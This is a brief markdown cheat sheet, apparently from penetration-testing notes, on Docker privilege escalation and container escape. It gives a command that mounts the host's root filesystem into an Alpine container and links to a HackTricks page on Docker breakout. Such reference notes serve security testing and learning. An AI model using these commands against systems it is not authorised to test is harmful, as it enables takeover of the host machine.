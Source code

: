 # Guide

1. If the shell gain is within a Docker container, make sure you are within the correct server or that the exploit cant be changed to escape.

# Privilege Escalation

```
docker image ls
```

```
docker run -v /:/mnt -it alpine
```
# Escape Container

[Docker Breakout / Privilege Escalation | HackTricks | HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
